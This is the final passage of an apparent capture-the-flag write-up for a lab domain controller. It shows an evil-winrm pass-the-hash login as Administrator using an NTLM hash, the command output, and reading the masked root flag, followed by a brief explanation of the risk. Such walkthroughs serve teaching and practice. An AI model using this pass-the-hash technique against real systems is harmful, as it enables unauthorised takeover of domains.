 ```

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3b13************************ac56

```

```
~$ evil-winrm -i dc.puppy.htb -u Administrator -H 'bb0edc15e49ceb4120c7bd7e6e65d75b'
                                        
Evil-WinRM shell v3.7                                    
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/31/2025   6:33 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3b13************************ac56
```

<p class="indent-paragraph">
This final technique showcases a critical risk in Active Directory environments where NTLM hashes, once exposed, can grant full access without triggering conventional authentication controls. Using the Administrator's hash, we established a new WinRM session and directly accessed the<code>root.txt</code> file, confirming total domain compromise.
</p><br>

</div>